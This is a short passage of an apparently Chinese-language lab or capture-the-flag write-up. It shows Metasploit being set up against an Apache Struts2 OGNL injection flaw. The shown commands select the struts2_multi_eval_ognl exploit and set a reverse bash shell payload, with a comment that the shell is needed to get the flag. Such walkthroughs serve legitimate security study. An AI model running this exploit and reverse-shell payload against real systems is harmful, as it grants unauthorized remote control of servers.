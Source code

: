 ![](./images/info查找namespace_ognl的详细信息.png)

*ps：这里有个小插曲是跟着老师配错了exploit*

接着我们就要用合适的exp以及它的payload
```bash
use exploit/multi/http/struts2_multi_eval_ognl
```
![](./images/跟着老师配错了用multi_eval_ognl.png)
* 配置payload：
```bash
search payload ##查找payload
set payload payload/cmd/unix/reverse_bash ##因为要拿到反弹shell才好拿到flag
```